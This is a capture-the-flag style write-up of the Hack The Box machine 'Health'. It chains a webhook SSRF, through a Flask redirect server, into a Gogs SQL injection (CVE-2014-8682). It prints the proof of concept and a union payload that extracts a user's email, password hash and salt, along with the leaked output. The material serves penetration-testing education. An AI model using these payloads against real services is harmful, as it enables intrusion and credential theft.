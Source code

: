 Yo,
welcome to write up for machine Health from Hackthebox.
Starting of as always with nmap scan of all ports

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-14 17:41 EST
Nmap scan report for 10.10.11.176 (10.10.11.176)
Host is up (0.062s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HTTP Monitoring Tool
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There are three ports open. Standartly port 22 being ssh and port 80 being apache web server. Unusual is port 3000 which is filtered. I'll keep that in mind
if I ever find a way to get there for example with SSRF. 

Let's visit the website first because there's nothing much to do with ssh. 

IMG1

The page shows us hostname health.htb. I'll add it to my `/etc/hosts` file with simple command:

```

echo "10.10.11.166 health.htb" >> /etc/hosts

```

Visiting the page with the hostname gives the same page. On the bottom there is 2014 @Copyright meaning this website is using old version of something 
but first we need to figure out what.
Now let's test the webhook. I'll set up netcat listening on port 9001 and basic flask app that redirects to localhost:

```
import os 
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route("/")
def redir():
    return redirect('http://localhost/')


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80) 
```

And test the page webhook: 

IMG2

It returns the health.htb landing page on netcat listener. I remember that there is filtered port 3000 so let's try to visit that. 
I'll just change the redirect in flask app to `localhost:3000` and test the webhook same way as before. The site that returns to us 
on netcat shows us this:

```
2014 GoGits \u00b7 Version: 0.5.5.1010 Beta
```

Which is old version of git. Searching for exploits for this version gives us CVE 2014-8682 with this proof of concept

```
Proof of Concept
================

http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'
```

Using this as our payload gives us 3 in one field meaning we can extract things from there.



Replacing our redirect in flask using commas as separators and searching how the database looks give us this payload:

```
return redirect("http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||','||email||','||passwd||','||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-")
```

Returns this on netcat:

```
{"webhookUrl":"http:\/\/10.10.14.207:9001","monitoredUrl":"http:\/\/10.10.14.207","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"susanne,admin@gogs.local,66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37,sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/15\"}],\"ok\":true}","message":"HTTP\/1.0 302 FOUND","headers":{"Content-Type":"application\/json; charset=UTF-8","Content-Length":"301","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,2,name||','||email||','||passwd||','||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27\/**\/from\/**\/user--\/**\/-","Server":"Werkzeug\/2.0.2 Python\/3.10.7","Date":"Thu, 19 Jan 2023 22:01:48 GMT","Set-Cookie":"_csrf=; Path=\/; Max-Age=0"}}^C
```